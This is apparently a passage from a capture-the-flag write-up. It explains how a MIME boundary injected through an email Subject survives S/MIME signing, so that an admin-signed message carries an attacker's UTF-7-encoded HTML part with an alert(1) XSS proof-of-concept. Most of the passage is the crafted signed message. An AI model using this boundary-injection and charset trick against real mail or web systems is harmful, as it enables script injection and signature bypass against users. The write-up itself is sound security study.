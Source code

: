- But no matters , try it on server to understand why .
## WHAT HAPPENING HERE ? 
![image](https://hackmd.io/_uploads/HkxfKIgeTke.png)
- Wait what ? Its so non sense right ? 
But we must remember that , our data will be **SIGNED** before being parsed !!
Here is the real message after signed !!
- And message is sent by admin so the check signed must be valid because admin does it .
```json
Content-Type: multipart/signed; protocol="application/pkcs7-signature"; micalg="sha-256"; boundary="===============admin2=="
MIME-Version: 1.0
From: admin@ses
To: admin@ses
Subject: Re: hi hi
--===============adminone==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0
+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-alert(1)+ADs-+ACA-/+AD4-
--===============adminone==
### THIS PART IS ADDED INTO BETWEEN SUBJECT AND OUR DATA MAKES IT VALID BECAUSE IT DEFINED A BOUNDARY AGAIN :VV ###
This is an S/MIME signed message
--===============admin2==
Content-Type: multipart/mixed; boundary="===============adminone=="
MIME-Version: 1.0

--===============adminone==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

<!DOCTYPE html>
<html>
<body>
  <div class="email-container">
      <h1>Re: hi hi

--===============adminone==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0

+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-alert(1)+ADs-+ACA-/+AD4-
--===============adminone==
</h1>
      <pre>dsad</pre>
  </div>
</body>
</html>
--===============adminone==
Content-Type: text/html; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

<!DOCTYPE html>
<html>
<body>
  <div class="email-container">
      <h1>Re: hi hi

--===============adminone==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0
```